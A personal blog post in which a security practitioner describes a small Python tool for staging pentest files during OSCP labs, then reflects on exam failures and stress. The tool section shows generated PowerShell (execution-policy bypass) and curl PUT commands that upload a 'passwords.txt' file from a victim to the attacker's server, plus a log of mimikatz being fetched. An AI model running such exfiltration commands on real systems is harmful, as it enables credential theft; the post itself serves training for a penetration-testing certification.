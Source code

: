 ```yaml
---
title: "Writing Tools and Learning"
date: 2025-01-19
---
```


## Intro

When I started my career in security, getting the OSCP certification was one of my first goals. Unfortunately, I failed my first attempt. A bit over four years later, I retook the exam and passed. The journey between attempts was not as linear as I had imagined and it has taken me some time to finally write out some of my thoughts on the process.

Before reflecting, I want to share a simple tool I wrote to help me during the exam. I understand that this is a small, personal, and sporadic blog, but I think of it as a way to look back on my previous lines of thinking. Additionally, if something here helps even just one person on a similar journey, that would be a great accomplishment for me. 

## Transferring Files

Throughout the OSCP curriculum, a recurring scenario is the need to transfer files between machines. This could be for initial foothold payloads, privilege escalation scripts, and exfiltrating documents for analysis (or dumping secrets!). Offsec's learning materials show a few different ways to accomplish this task through SMB, FTP, or HTTP. There are also many other ways to accomplish this task. While reading a post on The DFIR Report ([here](https://thedfirreport.com/2024/10/28/inside-the-open-directory-of-the-you-dun-threat-group/)) describing a threat actor's open directory, I realized how much easier it would be to have an always-on http server to pull tooling from when needed. Also, it is important to avoid fiddling around and learning new tooling during a certification exam when time is a resource and also a source of anxiety.

Like many others, I initially started out using Python's built-in http server module. However, I continuously found that I needed to upload files from victim machines to the attack machine. I started using [goshs](https://github.com/patrickhener/goshs), (which is an amazing tool and has now been added to the kali repos,) but I wanted an easy way to upload files straight from a command line. (I believe this is possible since there is a GUI for uploads but I did not look too deep into this.) Also, after a few months of grinding machines on Vulnhub and Proving Grounds, I had accumulated a long list of scripts and tools for pentesting that became a pain to look through every time I needed something. My idea was to write a  command line tool to search through my folder of tools and spit out a command to run on a victim machine. It is definitely possible that someone has already solved this problem but I figured I should get some scripting exercise in and build something from the ground up. 

# What it does

Github: [hosting](https://github.com/ky2303/hosting)

Since you are usually on Offsec's VPN when doing the labs or exam, the script uses the IP address of `tun0` and the default port 8000 from Python's module. This can be changed with arguments. There are four commands to use in the tool: download, logs, search, upload. They all have single letter aliases (d, l, s, u). While testing and writing the tool, I ended up integrating of the `download` functionality into the `search` function. As a result, I almost never use the `download` function and will most likely remove it going forward.

Demo:

```bash
$ python3 hosting.py -p 80
VPN: ON
IP : 192.168.61.128
HTTP server started at http://localhost:80

Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
Welcome to the file search CLI. Type help or ? to list commands.
>> 
```

![search]({{ "../assets/2025-01-19-writing-tools/search.png" | relative_url }})

![download]({{ "../assets/2025-01-19-writing-tools/download.png" | relative_url }})


# Commands

**Logs:** Since the tool runs the HTTP server and CLI modules together, output became a bit messy, so I decided to log everything from the server module to a file. This file can be shown by using `logs`. It will display the last 5 lines in the log file unless given an integer as an argument. The log file is deleted when exiting the CLI unless the `-l` argument is set to `True` when starting.

```bash
>> logs
2025-01-19 11:25:23,239 - "GET /mimikatz/x64/mimikatz.exe HTTP/1.1" 200 -
2025-01-19 11:26:42,177 - "GET /mimikatz/x64/mimikatz.exe HTTP/1.1" 200 -
```

**Search:** This function searches the hosted directory for a filename given as an argument. If a match is found, it shows both linux and windows commands to download the file, making it easy to copy/paste commands. This was the main usecase I had in mind for this tool and I think it came out great. I use it a lot.


**Upload:** Continuing with the theme of easy copy/pasting, this function just spits out linux and windows commands to upload files to the machine where this script is hosted. The http server class had to be extended a bit to add this functionality, but someone had already solved this problem so I copied [their code](https://gist.github.com/darkr4y/761d7536100d2124f5d0db36d4890109) for this part. I did run into some issues with files that were too large. (See Future.)

```bash
>> uploads passwords.txt
[*] Win upload command:
powershell -ep bypass -c "(New-Object Net.WebClient).UploadFile('http://192.168.61.128:80/passwords.txt', 'PUT', 'passwords.txt');"
[*] Linux upload commands:
curl -X PUT -T "passwords.txt" "http://192.168.61.128:80/passwords.txt"
```

# Future 

I recently came across a talk given by Tom Hudson that I enjoyed. I first heard of Tom (aka Tomnomnom) while listening to the Critical Thinking Bug Bounty podcast with Justin Gardner (aka rhynorater). In the talk, Tom shares a few great points about writing tools. I think Tom's idea of making simple tools that do one thing well is great and plan to continue iterating with this in mind.

The talk can be found here:

[Confessions of a Toolmaker - Tom Hudson](https://www.youtube.com/watch?v=lFBAo9TKRY8)

I also would like to fix the issue with larger files when sending PUT requests. I did not look into this closely but when I came across the problem, I used the `download` function in Evil-WinRM on windows machines or `scp` on linux. 


## Reflections

Back to my thoughts on the certification process. After failing my first exam attempt, I realized that I was way too overconfident. I had crested the initial peak of the Dunning-Kruger curve.

![dunning_kreuger]({{ "../assets/2025-01-19-writing-tools/dunning-kreuger.png" | relative_url }}){:style="display:block; margin-left:auto; margin-right:auto"}

As I took a step back, I realized how many fundamental concepts I did not fully grasp. I did not give the labs as much time and thought as I should have and I quickly skimmed through the PDF that OffSec gives you. While this approach may have worked in the tests I took in former academic environments, it was inadequate for a practical exam in a simulated environment. Unfortunately, I needed a job so I decided to shelf the idea of getting the OSCP and hammered out some entry-level CompTIA certs to get past the HR filters. 

Fast-forward to mid-2024, I had been comfortably working in a security role for about two years, participated in a few more CTFs, and completed almost every list of OSCP-like machines on Vulnhub that I could find. I decided to get the Learn-One subscription to OffSec which comes with the OSCP curriculum, access to a lot more practice machines, and two exam attempts. I scheduled my exam for September and started studying. 

Then, at the end of August, OffSec announced that they were changing the exam again to an "assumed compromise"-type exam, removing the bonus points for doing labs, and creating an "OSCP+" certification that expires every 3 years. This was about three weeks before my scheduled exam date, but it would not take effect until November. I thought about what to do for a few days but ultimately decided that since the original certification did not expire and I had already put many hours into doing the labs to get bonus points, it was best to stick to my original plan and take the exam in September. Thankfully, I passed and the bonus points helped. 

I now had the decision on whether I should use my second exam attempt on the wireless pentesting exam (OWSP) or try the OSCP+. Around this time, I realized that the pressure and anxiety that I put on myself to pass the exam had caused some health issues so I decided to take a little break from studying. After about a month of rest, I started doing Proving Grounds machines on OffSec again and decided to attempt the OSCP+ right after the holidays. What a terrible idea.

Unfortunately, I did not pass the OSCP+ exam. In the few days after, I was devastated and thought less of myself, constantly going over different enumeration methods and attacks I may have missed in my head. The feeling of failure after my first attempt returned, and I felt that I had crested another peak in another Dunning-Kruger curve. This is when I realized my own curve looked something like this:

![dunning_kreuger]({{ "../assets/2025-01-19-writing-tools/dunning-kreuger-modified.png" | relative_url }}){:style="display:block; margin-left:auto; margin-right:auto"}

(Apoloigies for the quality. Graphic design is not my passion)

After some time and reflection, I figured that I had accomplished the original goal I set for myself when I first started out this journey. Even with the failures, I learned new things -- in security and about myself -- that made the input time valuable. Two things have helped me cope with low times for me career-wise. First, after the Denver Nuggets won their first NBA championship in franchise history in 2023, center Nikola Jokic had one of my favorite recent quotes:

![jokic]({{ "../assets/2025-01-19-writing-tools/jokic.jpg" | relative_url }}){:style="display:block; width:600px"}

Secondly, a practical exercise that I recently started. Another podcast I enjoy is "My First Million" with Sam Parr and Shaan Puri. In a recent episode, Puri talks about a personal Slack channel he has called "Highs and Lows". In this channel, he writes down the most emotional moments while running his businesses. When an extreme event happens, whether good or bad, Puri will write down the event in the channel, overtime creating a log of times to look back on and see how far you have come. I have started to do this in my own way by writing down these types of events for my own career (though not in a Slack channel). Doing this has been helpful, and my hope is that in the long-term it will help me smooth out my own modified Dunning-Kruger curve above, balancing emotions with confidence and competence. The last mention of Puri's "Highs and Lows" channel is at the 46:29 mark here: [MFM youtube](https://youtu.be/8yIrBHghAJE?si=XtSmc9IEeMfq-jTA&t=2789)
